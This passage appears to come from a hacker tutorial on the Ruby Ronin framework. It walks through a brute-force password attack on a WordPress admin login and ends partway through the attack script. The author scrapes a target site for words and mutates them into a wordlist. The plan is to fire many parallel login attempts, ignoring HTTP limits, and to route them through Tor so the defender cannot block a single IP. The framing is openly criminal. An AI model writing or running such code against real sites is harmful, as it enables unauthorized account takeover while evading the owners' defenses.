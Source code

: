 ---------------------------------------------------------------------------

> **Debbi**: *Fuck this shit lets go do some crimes.*<br />
> **Duke**: *Yeah. Let's go get sushi and not pay.*<br />
* [Repo man](http://www.imdb.com/title/tt0087995/)

You are probably tired or all the talk by this point and would like to see an
attack on an actual target.  Well your not going to get it, but what I will
give you is an attack on a hypothetical target.  In this issue I am going to
cop out with a dictionary attack on a wordpress site, but next issue we will
cover porting code from milw0rm and other frameworks like metasploit, and 
multi-level attacks using ronin.

Since plain old dictionary attacks on websites are so boring we will try and 
improve our chances by first scraping a site for all words then mutating those
words to provide a wordlist.  After this is done we will spawn off a bunch of
jobs to try and log into the site.

This process is made simple with yet another gem, written by our good friend
postmodern and maintained by the SophSec crew, called wordlist [8].  The 
assumption is that most dictionaries will have way too many words to try all
of them, but the selection of words on a website may comprise a smaller 
dictionary that contains a word that may be used as the admin password,
possibly with some mutations.  Another problem is that password attacks on
a website are slow if you follow the HTTP standard and not make more than 2
requests to the same domain at a time, but why would we follow that rule?
We'll fork as many as we need.  And of course we don't want our sysadmin on
the other end to have it easy and be able to whitelist a single ip, so we'll
run the whole damn thing through tor (now they could just block tor which would
be a bummer).

{% highlight ruby %}
#!/usr/bin/env ruby
require 'ronin/web'
require 'optparse'
require 'ostruct'
require 'wordlist/builders/website' # https://github.com/sophsec/wordlist
require 'wordlist'
require 'logger'

include Ronin

class App
  VERSION = '0.0.1'

  attr_reader :options

  def initialize(arguments)
    @arguments = arguments
    @options = OpenStruct.new
    @options.verbose = false
    @options.host = nil
    @options.word_list = nil
    @options.file = 'list.txt'
    @options.threads = 10
    @options.path = '/wp-login.php'
    @options.user = 'admin'
    @opts = nil
    @mutations = {
      'a' => '@', 'a' => '4', 'A' => '@', 'A' => '4',

      'b' => '8', 'B' => '8',

      'c' => '(', 'C' => '(',

      'e' => '3', 'E' => '3',

      'g' => '6', 'G' => '6',

      'i' => '1', 'I' => '1', 'i' => '|', 'I' => '|', 'i' => '!', 'I' => '!',